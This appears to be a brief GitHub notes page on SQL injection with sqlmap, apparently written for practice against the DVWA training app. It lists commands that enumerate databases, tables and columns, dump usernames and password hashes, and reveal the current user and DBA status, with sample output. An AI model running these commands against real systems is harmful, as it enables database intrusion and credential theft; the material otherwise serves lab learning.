 ## SQL-Injections 
[docs](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
#### SQL (Blind) Injection example  
Blind SQL Injection is often used to build the database schema, and get all the data in the database. This is done using brute force techniques and does require many requests to be sent to the server.  

`sqlmap -u "url-of-attack" --cookie="full cookie name"`  

ex.  
`sqlmap -u 'http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#' --cookie="security=low; PHPSESSID=aadfsfsasfsdffsffsdfs"`  
options--
`--dbs`  list databases  
`-D dvwa --tables`  list all tables in the dvwa database  
`-T users --column`  list all columns in table users  
`-C user,password --dump` gets all usernames and password hashes 

#### more examples  
`sqlmap -u "http://example.com/?id=1&Submit=Submit#" --cookie="PHPSESSID=sdfsfsfsfsfslfjafj; security=low" --current-user --hostname --current-db --is-dba --thread=6`  
gives this info  
```
* `Linux Ubuntu`  
* `Apache 2.4.7, PHP 5.5.9`  
* `MySQL >= 5.0.12`  
* `root@localhost`    
* `dvwa`    
* `ip-10-20-40-33`    
* `True`    
